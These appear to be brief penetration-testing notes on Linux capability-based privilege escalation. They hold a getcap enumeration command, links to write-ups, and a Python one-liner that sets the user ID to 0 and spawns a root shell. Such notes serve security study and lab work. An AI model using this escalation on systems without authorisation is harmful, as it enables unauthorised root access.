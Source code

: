 # Capabilities Overview
similar to SUIDs
```bash
getcap -r / 2>/dev/null #check for any capabilities set
```
Linux Privilege Escalation using Capabilities - [https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

SUID vs Capabilities - [https://mn3m.info/posts/suid-vs-capabilities/](https://mn3m.info/posts/suid-vs-capabilities/)

Linux Capabilities Privilege Escalation - [https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)

# Escalation via Capabilities
can use python
https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/
```python
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

